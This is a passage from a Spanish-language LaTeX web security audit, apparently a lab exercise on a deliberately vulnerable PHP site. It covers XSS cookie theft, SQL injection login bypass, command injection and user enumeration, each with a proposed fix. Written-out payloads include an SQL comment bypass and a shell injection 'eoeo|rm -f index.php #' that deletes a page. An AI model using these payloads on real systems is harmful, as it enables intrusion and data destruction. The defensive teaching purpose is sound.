    
\includegraphics[scale=0.5]{./imagenes/cookie_robada}
    \caption{Cookie robada}
\end{figure}

También nos encontramos el mismo problema en los comentarios del apartado guestbook, que podemos explotar de la misma forma.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.45]{./imagenes/guestbook_comentario}
    \caption{Inyección en comentarios}
\end{figure}
\subsubsection*{Solución a  la vulnerabilidad:}
Veamos primero cómo es el código de la web:
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/search_sin_sanitizar}
    \caption{Código original}
\end{figure}

Una de las formas de evitar estas inyecciones de código, es validando el texto que será evaluado. Para ello, podemos quitar las TAGS de HTML que entren en los cuadros de texto o escapar los datos para evitar ciertos caracteres posiblemente maliciosos.
\begin{verbatim}
$query=strip_tags($query)
htmlentities($query)
\end{verbatim}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/search_con_sanitizar}
    \caption{Código sanitizado}
\end{figure}
Y ahora, cuando intentemos realizar una búsqueda con parámetros "maliciosos":
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/search_web_sanitizado}
    \caption{Búsqueda sanitizada}
\end{figure}


% -------------------------------------------------% -------------------------------------------------
\subsection{Inyección SQL.}
\subsubsection*{Explicación de la vulnerabilidad:}
En este caso, encontramos graves fallos en la página de login. Algunos de estos, nos permiten hasta loggearnos sin la contraseña.
Para descubrir esto, introducimos el carácter `` ' '' para ver la respuesta de la página, que nos da un error.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.45]{./imagenes/inyeccion_sql1}
    \caption{Error con SQL}
\end{figure}
Por tanto sabemos que ese carácter se puede introducir para producir una vulnerabilidad. 
Supongamos que el código de la consulta SQL es de la forma
\begin{verbatim}
SELECT * FROM tabla_users WHERE (usario ='$usuario' AND pass='$password')
\end{verbatim}
Así que intentaremos escapar los caracteres de esta forma. Intentaremos que no se tenga en cuenta el password, para ello inyectaremos un carácter que haga que el código para la pass sea comentado. En SQL, comentamos con `` -- '' o `` \# '' . Por tanto necesitamos:
\begin{verbatim}
SELECT * FROM tabla_users WHERE (usario ='$usuario' -- AND pass='$password')
\end{verbatim}
Y teniendo el nombre de un usuario, seríamos capaces de loggearnos con él. Para conseguir el nombre de un usuario, solo tenemos que ver los comentarios o las fotos subidas. Probaremos con el usuario \textbf{bryce}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.45]{./imagenes/inyeccion_sql_bryce}
    \caption{Probamos con la inyección}
\end{figure}

Viendo que accedemos al usuario con éxito:

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.45]{./imagenes/inyeccion_sql_bryce_2}
    \caption{Probamos con la inyección}
\end{figure}

También podemos hacer esta inyección de SQL en la página de registro. En este caso, nos permitiría hacer cosas como copiar los datos de las tablas de usuarios o eliminarlas con un DROP. 
\subsubsection*{Solución a  la vulnerabilidad:}
Como en el caso anterior, una posible solución sería escapar los caracteres que puedan dar lugar a este tipo de inyecciones.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/login_sin_sanear}
    \caption{Código sin sanear}
\end{figure}
Para ello usaremos otra vez el comando mysql\_real\_escape\_string, que escapa los caracteres para uso de sentencias SQL.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/login_codigo_saneado}
    \caption{Código saneado}
\end{figure}

Y vemos que ya no tenemos acceso. 
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.45]{./imagenes/login_saneado}
    \caption{Página de login saneada}
\end{figure}


% -------------------------------------------------% -------------------------------------------------
\subsection{Inyección remota de comandos.}
\subsubsection*{Explicación de la vulnerabilidad:}
La página para comprobar la robustez de tu contraseña, permite hacer inyección de comandos, pues nos dice el comando que está utilizando. 
Como vemos el comando que se utiliza, podemos añadir $\vert$ para utilizar otra orden más peligrosa, como podría ser \textit{rm} para borrar páginas de la web.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.45]{./imagenes/command_injection_1}
    \caption{Página de password strength}
\end{figure}

\begin{verbatim}
eoeo|rm -f index.php #
\end{verbatim}
El comando anterior, borraría la página de index.php
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.45]{./imagenes/inyeccion_comandos2}
    \caption{Página de index borrada}
\end{figure}

\subsubsection*{Solución a  la vulnerabilidad:}
Podríamos subsanar este error escapando ciertos caracteres, o ejecutando de otra manera el comando, para así evitar que estas inyecciones ocurran.
Para sanitizarlos, podríamos utilizar la función 
\begin{verbatim}
  $pass = escapeshellcmd($pass);
\end{verbatim}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/inyeccion_comandos_3}
    \caption{Código saneado}
\end{figure}

Otra posible opción, sería prohibir el uso de funciones peligrosas en el archivo php.ini. 
% -------------------------------------------------% -------------------------------------------------
\subsection{Manipulación de distintos parámetros.}
\subsubsection*{Explicación de la vulnerabilidad:}
Tal y como está montado el diseño de la página web, nos es posible acceder al nombre de todos los usuarios con
\begin{verbatim}
 users/view.php?userid=
\end{verbatim}
Lo cual nos permitiría listarlos. 
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/manipulacion_parametros_1}
    \caption{Usuario bryce}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/manipulacion_parametros_2}
    \caption{Usuario bob}
\end{figure}
Lo cual nos permitirá crear un diccionario de usuarios, para hacer más fácil un posible ataque de fuerza bruta.
\subsubsection*{Solución a  la vulnerabilidad:}
Una posible solución sería enviar estas peticiones con un token, o montar la web de tal forma que los usuarios no se puedan listar, cambiando el tipo de petición.
% -------------------------------------------------% -------------------------------------------------
\subsection{Exploración directorios.}
\subsubsection*{Explicación de la vulnerabilidad:}
Como nos indica el análisis automático, muchos de los directorios son visibles:
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/directorios_1}
    \caption{Directorio de css}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/directorios_2}
    \caption{Directorio de uploads}
\end{figure}
Lo cual nos podría dar lugar a tener información sensible sobre datos de la web, datos internos, estructura...
\subsubsection*{Solución a  la vulnerabilidad:}
Tendremos que evitar que estos directorios se muestren, para ello configuramos apache con:
\begin{verbatim}
<Directory />
    AllowOverride None
    Order deny,allow
    Deny from all
</Directory>
\end{verbatim}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/directorios_3}
    \caption{Configuración adecuada.}
\end{figure}
% -------------------------------------------------% -------------------------------------------------
\subsection{Aplicar el descuento de forma ilimitada.}
\subsubsection*{Explicación de la vulnerabilidad:}
En una de las páginas, encontramos un descuento que podemos aplicar para próximas compras.
\begin{figure}[H]
    \centering
    \includegraphics[scale=0.5]{./imagenes/descuentO_1}
    \caption{Imagen del descuento}
\end{figure}
Si intentamos aplicar el descuento varias veecs, observamos que no tenemos ningún problema:
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.45]{./imagenes/descuento_2}
    \caption{Descuento aplicado múltiples veces}
\end{figure}
Así que podemos hacer un descuento tan grande como queramos, lo cual no es nada beneficioso para la empresa.
\subsubsection*{Solución a  la vulnerabilidad:}
En la generación de este descuento, se debería cotejar con una base de datos, que nos diga si el cupón ha sido añadido o no con anterioridad, impidiendo su uso reiteradas veces.

% -------------------------------------------------% -------------------------------------------------
\subsection{Debilidad en contraseñas.}
\subsubsection*{Explicación de la vulnerabilidad:}
Para testear la fuerza de las contraseñas, hemos creado un diccionario muy sencillo con los nombres de los usuarios, ciertas variaciones de ellos y la palabra admin. 
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.7]{./imagenes/usuarios_hydra}
    \caption{Lista de usuarios}
\end{figure}
Probaremos con fuerza bruta e hydra para ver cuales de estas combinaciones dan lugar a una posible contraseña. Gracias al listado anterior, hemos podido obtener el nombre de todos los usuarios, lo cual facilita el trabajo. 
En primer lugar, hemos de saber qué tipo de petición hace, y los parámetros.
\begin{figure}[H]
    \centering
